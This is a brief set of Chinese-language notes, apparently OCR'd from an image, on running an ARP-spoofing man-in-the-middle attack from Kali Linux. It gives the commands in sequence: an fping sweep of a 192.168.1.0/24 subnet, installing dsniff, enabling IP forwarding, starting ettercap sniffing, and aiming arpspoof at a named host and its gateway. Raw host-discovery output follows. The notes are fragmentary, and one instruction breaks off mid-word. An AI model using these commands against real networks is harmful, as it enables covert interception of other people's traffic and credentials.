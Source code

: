 fping -g 192.168.1.6/24
先输入命令更新一下系统：
apt-get update，接着输入命令下载安装arpspoof程序：
apt-get install dsniff；然后查看是否下载成功输入命
echo 1 > /proc/sys/net/ipv4/ip_forward kali 开启转发
ettercap
     -Tq -i eth0 开启嗅探
     ettercap -G 客户端


arpspoof -i eth0 -t 192.168.1.134 192.168.1.1


192.168.1.1 is alive
192.168.1.15 is alive
192.168.1.25 is alive
192.168.1.14 is alive
192.168.1.18 is alive
192.168.1.37 is alive
192.168.1.24 is alive
192.168.1.23 is alive
192.168.1.32 is alive
192.168.1.87 is alive
192.168.1.87 : duplicate for [0], 64 bytes, 22.3 ms
192.168.1.91 is alive
192.168.1.91 : duplicate for [0], 64 bytes, 180 ms
192.168.1.115 is alive
192.168.1.134 is alive
192.168.1.73 is alive
192.168.1.73 : duplicate for [0], 64 bytes, 346 ms


